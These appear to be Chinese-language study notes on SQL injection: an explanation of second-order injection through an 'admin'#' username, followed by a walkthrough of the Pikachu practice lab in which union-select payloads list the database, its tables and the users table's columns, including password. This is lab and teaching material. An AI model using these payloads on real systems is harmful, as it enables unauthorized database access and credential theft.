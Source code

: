 

### 二次注入

#### 步骤

1. 插入恶意代码（转以后将原始数据存取数据库且提取时不做过滤）
2. 找到需要使用我们插入恶意代码的功能的地方（修改密码、留言板）
3. 正常使用此功能使其触发SQL注入

#### 举例

注册用户名为：`admin'#`，再进行修改密码操作时进行SQL注入

```
UPDATE users SET password='123' where username='admin'#' and password='$password';
```




## Pikachu-SQL靶场

### 数字型注入（POST）

#### 考点：post传参，理解如何注入

#### 思路：

bp抓包，发现是post传参方式，于是拿bp抓包

判断什么类型传参

id=1' --+		//报错，应该不是字符串型
?id=2-1 --+		//正常显示，判断为数学型注入


1. 爆库

   ```
   ?id=0 union select 1,database() --+
   库名：pikachu
   ```


2. 爆表

   ```
   ?id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema="pikachu" --+
   表名：httpinfo,member,message,users,xssblind
   ```


3. 爆列名

   ```
   ?id=0 union select 1,group_concat(column_name) from information_schema.columns where table_name="users" --+
   
   列名：id,username,password,level,id,username,password
   ```
